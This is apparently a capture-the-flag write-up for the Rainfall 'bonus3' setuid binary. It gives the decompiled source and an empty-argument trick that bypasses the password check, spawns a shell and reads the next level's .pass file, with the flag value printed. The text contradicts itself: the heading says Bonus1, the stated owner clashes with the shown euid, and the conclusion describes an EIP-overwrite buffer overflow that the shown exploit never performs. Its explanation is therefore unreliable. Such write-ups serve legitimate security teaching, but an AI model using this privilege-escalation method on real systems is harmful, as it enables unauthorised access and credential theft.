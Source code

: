 ## Walk-through Bonus1

### Introduction
Bonus3 is part of the Rainfall challenge series, where the goal is to escalate privileges by exploiting a vulnerable binary. This walk-through covers analyzing the binary, identifying vulnerabilities, and obtaining elevated access.

### Binary Information
The target binary is a 32-bit ELF executable with setuid permissions. This means that when executed, it runs with the privileges of its owner (bonus2), allowing for privilege escalation if exploited successfully.

### Security Checks
Checking the binary’s security protections:
```bash
bonus3@RainFall:~$ checksec --file bonus3
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   bonus3
```
Observations:
- **No RELRO:** No read-only relocation, meaning GOT entries can be modified.
- **No stack canary:** No protection against buffer overflow.
- **NX enable:** The stack is not executable, not allowing shellcode execution.
- **No PIE:** The binary is not position-independent, meaning addresses are static.

### Source Code Analysis
The binary’s decompiled source code:
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

typedef unsigned char byte;

int main(int argc, char **argv)

{
  int iVar1;
  char *puVar2;
  byte bVar3;
  char local_98[16];
  char local_57;
  char local_56[66];
  FILE *local_14;

  bVar3 = 0;
  local_14 = fopen("/home/user/end/.pass", "r");
  puVar2 = local_98;
  for (iVar1 = 0x21; iVar1 != 0; iVar1 = iVar1 + -1) {
    *puVar2 = 0;
    puVar2 = puVar2 + (uint)bVar3 * -2 + 1;
  }
  if ((local_14 == (FILE *)0x0) || (argc != 2)) {
    iVar1 = -1;
  } else {
    fread(local_98, 1, 0x42, local_14);
    local_57 = 0;
    iVar1 = atoi(argv[1]);
    *(char *)(local_98 + iVar1) = 0;
    fread(local_56, 1, 0x41, local_14);
    fclose(local_14);
    iVar1 = strcmp((char *)local_98, argv[1]);
    if (iVar1 == 0) {
      execl("/bin/sh", "sh", 0);
    } else {
      puts(local_56);
    }
    iVar1 = 0;
  }
  return iVar1;
}
```

The program reads a password file (.pass) and compares user input against the file's contents. If the input matches, it spawns a shell (/bin/sh). However, the code contains several vulnerabilities that allow an attacker to bypass the password check and gain shell access.

### Exploitation Strategy

If we examine the source code, we notice that *(char *)(local_98 + iVar1) = 0; is equivalent to local_98[iVar1] = 0;. Since iVar1 is assigned the value of atoi(argv[1]), passing an empty string ("") as an argument results in atoi(""), which returns 0. This leads to strcmp("", ""), which evaluates to 0, causing the if condition to be triggered.


### Gaining Access

```bash
bonus3@RainFall:~$ ./bonus3 ""
$ id
uid=2013(bonus3) gid=2013(bonus3) euid=2014(end) egid=100(users) groups=2014(end),100(users),2013(bonus3)
$ cat /home/user/end/.pass
3321b6f81659f9a71c76616f606e4b50189cecfea611393d5d649f75e157353c
$
```
### Mitigation Strategies
* **Enable** stack canaries to detect buffer overflows.
* Implement bounds checking on user input.
* Enable **ASLR** and NX bit to prevent predictable memory layouts and execution of injected shellcode.
### Conclusion
This challenge demonstrates classic buffer overflow exploitation by overwriting EIP to redirect execution. Understanding binary protections and manual debugging in GDB are crucial for developing exploitation skills.

